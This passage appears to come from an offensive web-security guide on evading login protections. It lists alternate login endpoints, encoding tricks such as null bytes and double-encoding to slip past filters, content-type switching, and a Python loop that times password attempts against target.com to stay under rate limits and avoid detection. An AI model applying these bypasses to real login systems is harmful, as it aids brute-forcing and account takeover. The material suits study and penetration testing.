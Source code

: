 /login
/user/login
/account/login
/api/login
/api/v1/login
/api/v2/login
/mobile/login
/auth/login
/authenticate
/session/create
/customers/signin
/users/auth
/rest/v1/login
Some endpoints may not have rate limiting, CAPTCHA or 2FA.
Can bypass security middleware applied only to main routes.
Encoding Tricks
Encoding is used to represent characters in different formats. Attackers often use it to bypass input filters, WAFs or validation rules by obfuscating payloads.

user=admin%20        # space after admin
user=admin%00        # null byte injection
user=%61%64%6d%69%6e # 'admin' in hex
user=ad%6Din  # only 'm' is encoded
user=%2561%2564%256d%2569%256e  # double-encoded 'admin'
 Send data in different formats:
Send data in different formats:

Content-Type: application/json
{"user":"admin"}

Content-Type: application/x-www-form-urlencoded
user=admin
Bypass input filters, firewalls or blacklists
Trigger server-side decoding quirks
Exploit insecure parsers
Time-based Manipulation
Some websites have rate limits that block requests if too many are made within a short time. By controlling the interval between requests you can stay just under the threshold and avoid getting blocked.

import requests
import time

# Loop to send multiple requests
for i in range(10):
    # Sending a POST request to login endpoint
    r = requests.post("https://target.com/login", data={"user":"admin", "pass":"1234"})
    print(r.status_code)  # Print the response status code
    time.sleep(0.9)  # Adjust sleep time based on rate limit window
Bypass Rate Limiting: Prevents getting blocked by controlling request intervals.
Avoid Detection: Manipulate time to avoid triggering security systems that track request frequency.
Special Character Injection
Special characters like null bytes, CRLF or others can be used to bypass security filters, influence server-side behavior or exploit parsing vulnerabilities.
